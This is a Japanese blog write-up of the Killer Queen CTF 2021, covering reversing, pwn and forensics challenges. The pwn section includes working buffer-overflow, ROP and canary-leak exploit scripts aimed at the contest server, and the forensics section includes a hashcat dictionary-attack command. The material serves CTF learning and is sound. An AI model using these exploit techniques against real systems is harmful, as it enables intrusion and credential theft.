





[Killer Queen CTF 2021](https://ctftime.org/event/1482)にチーム[0neP@dding](https://ctftime.org/team/168239)として参加してきました。にチーム[0neP@dding](https://ctftime.org/team/168239)として参加したので面白かった問題だけ簡単にWriteUpを書きます。

開催終了と同時にスコアボードが閉鎖され、残念ながら最終順位はわかりませんでしたが、トータルで14問正解し、最後にスコアボードを確認したタイミングでは62位の順位でした。（最終順位はたぶん100位前後）

1000チーム近い規模だったことを考えるとまずまずな気もしますが、個人的には50位以内を狙いたかったので精進しなきゃと思ってます。

<!-- omit in toc -->
## もくじ
- [Rev](#rev)
  - [sneeki_snek](#sneeki_snek)
  - [sneeki_snek2](#sneeki_snek2)
  - [jazz](#jazz)
  - [gombalab](#gombalab)
- [Pwn](#pwn)
  - [A Kind of Magic](#a-kind-of-magic)
  - [HammerToFall](#hammertofall)
  - [zoom2win](#zoom2win)
  - [tweetbird](#tweetbird)
- [Forensic](#forensic)
  - [Obligatory Shark](#obligatory-shark)
  - [Shes A Killed Queen](#shes-a-killed-queen)
- [まとめ](#まとめ)

## Rev

### sneeki_snek 

Pythonの中間コード(.pyc)として作成されるバイトコードのリバーシング問題でした。

バイトコードを見れば大体何をしているのかはわかるので、あとはリバースエンジニアリングしたPythonスクリプトを自分の環境でコンパイルして、生成されたバイトコードが問題のバイトコードと一致することを確認すればFlagが取得できます。

``` bash
  4           0 LOAD_CONST               1 ('')
              2 STORE_FAST               0 (f)

  5           4 LOAD_CONST               2 ('rwhxi}eomr\\^`Y')
              6 STORE_FAST               1 (a)

  6           8 LOAD_CONST               3 ('f]XdThbQd^TYL&\x13g')
             10 STORE_FAST               2 (z)

  7          12 LOAD_FAST                1 (a)
             14 LOAD_FAST                2 (z)
             16 BINARY_ADD
             18 STORE_FAST               1 (a)

  8          20 LOAD_GLOBAL              0 (enumerate)
             22 LOAD_FAST                1 (a)
             24 CALL_FUNCTION            1
             26 GET_ITER
        >>   28 FOR_ITER                48 (to 78)
             30 UNPACK_SEQUENCE          2
             32 STORE_FAST               3 (i)
             34 STORE_FAST               4 (b)

  9          36 LOAD_GLOBAL              1 (ord)
             38 LOAD_FAST                4 (b)
             40 CALL_FUNCTION            1
             42 STORE_FAST               5 (c)

 10          44 LOAD_FAST                5 (c)
             46 LOAD_CONST               4 (7)
             48 BINARY_SUBTRACT
             50 STORE_FAST               5 (c)

 11          52 LOAD_FAST                5 (c)
             54 LOAD_FAST                3 (i)
             56 BINARY_ADD
             58 STORE_FAST               5 (c)

 12          60 LOAD_GLOBAL              2 (chr)
             62 LOAD_FAST                5 (c)
             64 CALL_FUNCTION            1
             66 STORE_FAST               5 (c)

 13          68 LOAD_FAST                0 (f)
             70 LOAD_FAST                5 (c)
             72 INPLACE_ADD
             74 STORE_FAST               0 (f)
             76 JUMP_ABSOLUTE           28

 14     >>   78 LOAD_GLOBAL              3 (print)
             80 LOAD_FAST                0 (f)
             82 CALL_FUNCTION            1
             84 POP_TOP
             86 LOAD_CONST               0 (None)
             88 RETURN_VALUE
```

バイトコードの生成と確認のために、以下の記事を参考にしました。

参照：[Reading pyc file (Python 3.5.2) - Qiita](https://qiita.com/amedama/items/698a7c4dbdd34b03b427)

最終的にリバースしたPythonスクリプトはこちら。

``` python
f = ''
a = 'rwhxi}eomr\\^`Y'
z = 'f]XdThbQd^TYL&\x13g'
a = a + z
for i, b in enumerate(a):
    c = ord(b)
    c = c - 7
    c = c + i
    c = chr(c)
    f += c

print(f)
```

これを実行すればFlagがとれます。

### sneeki_snek2

バイトコードは少し長いですが、先ほどの問題と同じ手法で解けます。

``` bash
  4           0 BUILD_LIST               0
              2 STORE_FAST               0 (a)

  5           4 LOAD_FAST                0 (a)
              6 LOAD_METHOD              0 (append)
              8 LOAD_CONST               1 (1739411)
             10 CALL_METHOD              1
             12 POP_TOP

  6          14 LOAD_FAST                0 (a)
             16 LOAD_METHOD              0 (append)
             18 LOAD_CONST               2 (1762811)
             20 CALL_METHOD              1
             22 POP_TOP

  7          24 LOAD_FAST                0 (a)
             26 LOAD_METHOD              0 (append)
             28 LOAD_CONST               3 (1794011)
             30 CALL_METHOD              1
             32 POP_TOP

  8          34 LOAD_FAST                0 (a)
             36 LOAD_METHOD              0 (append)
             38 LOAD_CONST               4 (1039911)
             40 CALL_METHOD              1
             42 POP_TOP

  9          44 LOAD_FAST                0 (a)
             46 LOAD_METHOD              0 (append)
             48 LOAD_CONST               5 (1061211)
             50 CALL_METHOD              1
             52 POP_TOP

 10          54 LOAD_FAST                0 (a)
             56 LOAD_METHOD              0 (append)
             58 LOAD_CONST               6 (1718321)
             60 CALL_METHOD              1
             62 POP_TOP

 11          64 LOAD_FAST                0 (a)
             66 LOAD_METHOD              0 (append)
             68 LOAD_CONST               7 (1773911)
             70 CALL_METHOD              1
             72 POP_TOP

 12          74 LOAD_FAST                0 (a)
             76 LOAD_METHOD              0 (append)
             78 LOAD_CONST               8 (1006611)
             80 CALL_METHOD              1
             82 POP_TOP

 13          84 LOAD_FAST                0 (a)
             86 LOAD_METHOD              0 (append)
             88 LOAD_CONST               9 (1516111)
             90 CALL_METHOD              1
             92 POP_TOP

 14          94 LOAD_FAST                0 (a)
             96 LOAD_METHOD              0 (append)
             98 LOAD_CONST               1 (1739411)
            100 CALL_METHOD              1
            102 POP_TOP

 15         104 LOAD_FAST                0 (a)
            106 LOAD_METHOD              0 (append)
            108 LOAD_CONST              10 (1582801)
            110 CALL_METHOD              1
            112 POP_TOP

 16         114 LOAD_FAST                0 (a)
            116 LOAD_METHOD              0 (append)
            118 LOAD_CONST              11 (1506121)
            120 CALL_METHOD              1
            122 POP_TOP

 17         124 LOAD_FAST                0 (a)
            126 LOAD_METHOD              0 (append)
            128 LOAD_CONST              12 (1783901)
            130 CALL_METHOD              1
            132 POP_TOP

 18         134 LOAD_FAST                0 (a)
            136 LOAD_METHOD              0 (append)
            138 LOAD_CONST              12 (1783901)
            140 CALL_METHOD              1
            142 POP_TOP

 19         144 LOAD_FAST                0 (a)
            146 LOAD_METHOD              0 (append)
            148 LOAD_CONST               7 (1773911)
            150 CALL_METHOD              1
            152 POP_TOP

 20         154 LOAD_FAST                0 (a)
            156 LOAD_METHOD              0 (append)
            158 LOAD_CONST              10 (1582801)
            160 CALL_METHOD              1
            162 POP_TOP

 21         164 LOAD_FAST                0 (a)
            166 LOAD_METHOD              0 (append)
            168 LOAD_CONST               8 (1006611)
            170 CALL_METHOD              1
            172 POP_TOP

 22         174 LOAD_FAST                0 (a)
            176 LOAD_METHOD              0 (append)
            178 LOAD_CONST              13 (1561711)
            180 CALL_METHOD              1
            182 POP_TOP

 23         184 LOAD_FAST                0 (a)
            186 LOAD_METHOD              0 (append)
            188 LOAD_CONST               4 (1039911)
            190 CALL_METHOD              1
            192 POP_TOP

 24         194 LOAD_FAST                0 (a)
            196 LOAD_METHOD              0 (append)
            198 LOAD_CONST              10 (1582801)
            200 CALL_METHOD              1
            202 POP_TOP

 25         204 LOAD_FAST                0 (a)
            206 LOAD_METHOD              0 (append)
            208 LOAD_CONST               7 (1773911)
            210 CALL_METHOD              1
            212 POP_TOP

 26         214 LOAD_FAST                0 (a)
            216 LOAD_METHOD              0 (append)
            218 LOAD_CONST              13 (1561711)
            220 CALL_METHOD              1
            222 POP_TOP

 27         224 LOAD_FAST                0 (a)
            226 LOAD_METHOD              0 (append)
            228 LOAD_CONST              10 (1582801)
            230 CALL_METHOD              1
            232 POP_TOP

 28         234 LOAD_FAST                0 (a)
            236 LOAD_METHOD              0 (append)
            238 LOAD_CONST               7 (1773911)
            240 CALL_METHOD              1
            242 POP_TOP

 29         244 LOAD_FAST                0 (a)
            246 LOAD_METHOD              0 (append)
            248 LOAD_CONST               8 (1006611)
            250 CALL_METHOD              1
            252 POP_TOP

 30         254 LOAD_FAST                0 (a)
            256 LOAD_METHOD              0 (append)
            258 LOAD_CONST               9 (1516111)
            260 CALL_METHOD              1
            262 POP_TOP

 31         264 LOAD_FAST                0 (a)
            266 LOAD_METHOD              0 (append)
            268 LOAD_CONST               9 (1516111)
            270 CALL_METHOD              1
            272 POP_TOP

 32         274 LOAD_FAST                0 (a)
            276 LOAD_METHOD              0 (append)
            278 LOAD_CONST               1 (1739411)
            280 CALL_METHOD              1
            282 POP_TOP

 33         284 LOAD_FAST                0 (a)
            286 LOAD_METHOD              0 (append)
            288 LOAD_CONST              14 (1728311)
            290 CALL_METHOD              1
            292 POP_TOP

 34         294 LOAD_FAST                0 (a)
            296 LOAD_METHOD              0 (append)
            298 LOAD_CONST              15 (1539421)
            300 CALL_METHOD              1
            302 POP_TOP

 36         304 LOAD_CONST              16 ('')
            306 STORE_FAST               1 (b)

 37         308 LOAD_FAST                0 (a)
            310 GET_ITER
        >>  312 FOR_ITER                80 (to 394)
            314 STORE_FAST               2 (i)

 38         316 LOAD_GLOBAL              1 (str)
            318 LOAD_FAST                2 (i)
            320 CALL_FUNCTION            1
            322 LOAD_CONST               0 (None)
            324 LOAD_CONST               0 (None)
            326 LOAD_CONST              17 (-1)
            328 BUILD_SLICE              3
            330 BINARY_SUBSCR
            332 STORE_FAST               3 (c)

 39         334 LOAD_FAST                3 (c)
            336 LOAD_CONST               0 (None)
            338 LOAD_CONST              17 (-1)
            340 BUILD_SLICE              2
            342 BINARY_SUBSCR
            344 STORE_FAST               3 (c)

 40         346 LOAD_GLOBAL              2 (int)
            348 LOAD_FAST                3 (c)
            350 CALL_FUNCTION            1
            352 STORE_FAST               3 (c)

 41         354 LOAD_FAST                3 (c)
            356 LOAD_CONST              18 (5)
            358 BINARY_XOR
            360 STORE_FAST               3 (c)

 42         362 LOAD_FAST                3 (c)
            364 LOAD_CONST              19 (55555)
            366 BINARY_SUBTRACT
            368 STORE_FAST               3 (c)

 43         370 LOAD_FAST                3 (c)
            372 LOAD_CONST              20 (555)
            374 BINARY_FLOOR_DIVIDE
            376 STORE_FAST               3 (c)

 44         378 LOAD_FAST                1 (b)
            380 LOAD_GLOBAL              3 (chr)
            382 LOAD_FAST                3 (c)
            384 CALL_FUNCTION            1
            386 INPLACE_ADD
            388 STORE_FAST               1 (b)
            390 EXTENDED_ARG             1
            392 JUMP_ABSOLUTE          312

 45     >>  394 LOAD_GLOBAL              4 (print)
            396 LOAD_FAST                1 (b)
            398 CALL_FUNCTION            1
            400 POP_TOP
            402 LOAD_CONST               0 (None)
            404 RETURN_VALUE
```

リバースしたPythonスクリプトがこちら。

``` python
a = []
a.append(1739411)
a.append(1762811)
a.append(1794011)
a.append(1039911)
a.append(1061211)
a.append(1718321)
a.append(1773911)
a.append(1006611)
a.append(1516111)
a.append(1739411)
a.append(1582801)
a.append(1506121)
a.append(1783901)
a.append(1783901)
a.append(1773911)
a.append(1582801)
a.append(1006611)
a.append(1561711)
a.append(1039911)
a.append(1582801)
a.append(1773911)
a.append(1561711)
a.append(1582801)
a.append(1773911)
a.append(1006611)
a.append(1516111)
a.append(1516111)
a.append(1739411)
a.append(1728311)
a.append(1539421)
b = ''
for i in a:
    c = str(i)[::-1]
    c = c[:-1]
    c = int(c)
    c = c ^ 5
    c = c - 55555
    c = c // 555
    b += chr(c)

print(b)
```

これを実行するとFlagになります。

### jazz

jarファイルと暗号化されたテキストが渡されるので、まずは解凍します。

``` bash
jar -xvf challenge.jar 
```

すると、以下のJavaソースコードが取得できました。

``` java
import java.util.*;
import java.io.*;
public class challenge {
   public static void main(String[] args) throws FileNotFoundException {
      Scanner s = new Scanner(new BufferedReader(new FileReader("flag.txt")));
      String flag = s.nextLine();
      
      char[] r2 = flag.toCharArray();
      String build = "";
      for(int a = 0; a < r2.length; a++)
      {
         build += (char)(158 - r2[a]);
      }
      r2 = build.toCharArray();
      build = "";
      for(int a = 0; 2*a < r2.length - 1; a++)
      {
         build += (char)((2*r2[2*a]-r2[2*a+1]+153)%93+33);
         build += (char)((r2[2*a+1]-r2[2*a]+93)%93+33);
      }
      System.out.println(build);
   }
}
```

Flagを`(char)(158 - r2[a])`で暗号化した上で、2文字ずつのセットでさらに暗号化しています。

``` java
build += (char)((2*r2[2*a]-r2[2*a+1]+153)%93+33);
build += (char)((r2[2*a+1]-r2[2*a]+93)%93+33);
```

これを逆順に解読するスクリプトを書いてFlagを取得しました。

2文字ずつのセットで暗号化している部分の特定は、128バイト範囲の総当たりで特定しました。

``` python
enc = """9xLmMiI2znmPam'D_A_1:RQ;Il\*7:%i".R<"""

base = ""
for i in range(0, len(enc), 2):
    l = enc[i]
    r = enc[i+1]
    for a in range(128):
        for b in range(128):
            v1 = 158 - a
            v2 = 158 - b
            if (chr((2*v1-v2+153)%93+33) == l) and (chr((v2-v1+93)%93+33) == r):
                if a > 33 and b > 33:
                    base += chr(a) + chr(b)
print(base)
```

問題自体は簡単だったのですが、元々与えられていた暗号化テキストが破損していたり、修正された後のテキストも不備があって多少エスパーが必要だったりと、やたら疲れた問題でした。

残念ながら★1です。

### gombalab

今回一番苦戦（？）した難問でした。最後まで解けなかったので、解法見つつWriteUp書いていきます。

問題バイナリはGoで作成されたELFファイルのようです。

まずはmain関数を特定したところ、各フェーズを突破していくことで最終的にFlagにたどりつけそうなことがわかりました。



とりあえず最初のステップである`main.phase_1`を見てみます。



僕のRev力が低くて、正直これを見ても何をしているのかよくわかりませんでした笑

ただ、GDBを使って動的解析を行ってみると、どんな適当な入力値にしてもこの分岐までは到達できることがわかりました。

また、どうやら`local_108`には`入力した文字数+\n`分の長さが格納されていることもわかりました。

``` c
  if (local_108 == 0x2a) {
    runtime.memequal();
  }
```



どうやら、`main_phase1`は41文字の入力を受け取って`0x4d7f94`の文字列と比較する関数のようです。

というわけで、`For whom the bell tolls. Time marches on.`を入力して一つ目のハードルを突破できました。

続いて、`main_phase2`を見てみます。



## Pwn

### A Kind of Magic

初歩的なBOFの問題でした。

``` python
from ptrlib import *
elf = ELF("./pwn01")
nopsled = b"\x41"*44
shellcode = b"\x39\x05\x00\x00"
payload = nopsled + shellcode

sock = Socket("143.198.184.186", 5000)
sock.sendline(payload)
sock.interactive()
```

ベタ打ちしてたリトルエンディアン記法のバイト列が間違ってて無駄に時間使ってしまったので反省。

### HammerToFall

これは結構面白い問題でした。

以下のPythonスクリプトで`flag!`を出力させることができる入力値を求める問題。

``` python
import numpy as np

a = np.array([0], dtype=int)
val = int(input("This hammer hits so hard it creates negative matter\n"))
if val == -1:
	exit()
a[0] = val
a[0] = (a[0] * 7) + 1
print(a[0])
if a[0] == -1:
	print("flag!")
```

numpyのintは64bit符号あり整数の範囲に制限され、オーバフローした値は対照的な負の数として扱われます。（詳しくは2の補数について調べてみてください）

というわけで、7倍して1を足したときにオーバフローしてちょうど`-1`として解釈される入力値として`2635249153387078802`が正解になります。

### zoom2win

シンプルなROPの問題でしたが、問題バイナリが64bitであり、スタックのアラインメントのトラップに引っかかって、ローカルではエクスプロイトできるのにリモートでは刺さらない状況になってしまいました。

今回は以下の記事を参考にして`push rbp`をスキップしてリターンアドレスのバイト数をそろえる方法でFlagを取得しました。

参考：[[再掲]Pwnにおけるスタックのアライメント - Qiita](https://qiita.com/ssssssssok1/items/b8ffca6b68149812c335)

``` python
from pwn import *

elf = ELF("/home/parrot/Downloads/zoom2win")
context.binary = elf

p = remote("143.198.184.186", 5003)
nopsled = b"\x41"*40
shellcode = p64(0x40119b)
payload = nopsled + shellcode
p.sendline(payload)
p.interactive()
```

このソルバーでFlagを取得。

### tweetbird

スタックカナリアをバイパスしてROPをキメる問題でした。

書式文字攻撃でカナリアのバイト列をメモリから抜き出すところまでは上手くいったのですがなぜかエクスプロイトが刺さらずリタイア。

あとで確認したら、「メモリから抜き出したバイト列をリトルエンディアンに変換→ペイロード埋め込み」って処理をさせてたのですが、メモリから抜いてるんだから最初からリトルエンディアン記法ですよね、、っていうオチでしたorz

というわけでメモリから抜いたカナリアのバイト列をそのままペイロードに埋め込めばROPが成立してFlagが取れました。

``` python
from pwn import *
elf = ELF("/home/parrot/Downloads/tweetybirb")
context.binary = elf
nopsled = b"\x41"*72
payload = nopsled

p = process("/home/parrot/Downloads/tweetybirb")
# p = remote("143.198.184.186", 5002)
# shellcode = p64(0xc6a8b9f731892800)
# p.sendline(payload)
# p.sendline(b"A"*72 + b"%08x."*20)
r = p.recvline()
p.sendline("%15$p")
r = p.recvline()
shellcode = p64(int(r.strip(), 0x10))
shellcode2 = p64(0x4011db)
p.sendline(payload + shellcode + b'\x41'*8 + shellcode2)
p.interactive()
```

これで取れます。

## Forensic

### Obligatory Shark

問題のpcapファイルをダウンロードすると、Telnet通信のパケットでした。

Telnetは平文なのでパスワードが取れました。

見た感じパスワードはMD5だったので、Hashcatで辞書攻撃を仕掛けて元のパスワードを取得してFlag取得。

``` bash
hashcat -a 0 -m 0 list.hash /usr/share/wordlists/rockyou.txt
```

### Shes A Killed Queen

渡されたのは破損したPNGファイル。

調べたところIHDRチャンクのサイズが`0 x 0`になっていたのでこれを修復してあげればいい感じでした。

そのまま適当な値を埋め込むとCRCチェックに失敗するので、`png-parser`を使って正しいCRCを取得した上で、ブルートフォースしました。

``` python
from binascii import crc32

correct_crc = int('0db3f6c0',16)

for h in range(2000):
    for w in range(2000):
        data = (
            b"\x49\x48\x44\x52"
            + w.to_bytes(4, byteorder="big")
            + h.to_bytes(4, byteorder="big")
            + b"\x08\x06\x00\x00\x00"
        )
        if crc32(data) & 0xffffffff == correct_crc:
            print("Width: ", end="")
            print(hex(w))
            print("Height :", end="")
            print(hex(h))
            exit()
```

これで正しいIHDRチャンクのサイズが取得できたので、バイナリエディタで書き換えて画像を復元しました。

復元した画像をステガノしてみるとこの暗号文がでてきたのですが、これが解けずリタイア。



どうやら`Mary Stuart Code`という既知暗号で、[Mary Queen of Scots Cipher/Code - Online Decoder, Translator](https://www.dcode.fr/mary-stuart-code)でデコードできたようです。。

一応画像検索とかも試したんだけどなぁ。あと一歩Flagには至らずでした。

## まとめ

Killer Queen CTF 2021は参加チームも1000チーム近く参加しており、スポンサーもついた大会だったのですが、問題サーバのインフラトラブルや問題自体の不備が多く、中々大変な大会でした。

スコアボードが常時バグっていたり、管理者にDMしないとログインできなくなったりと、このくらいの規模のCTFとしては中々レアな体験ができたように思います。

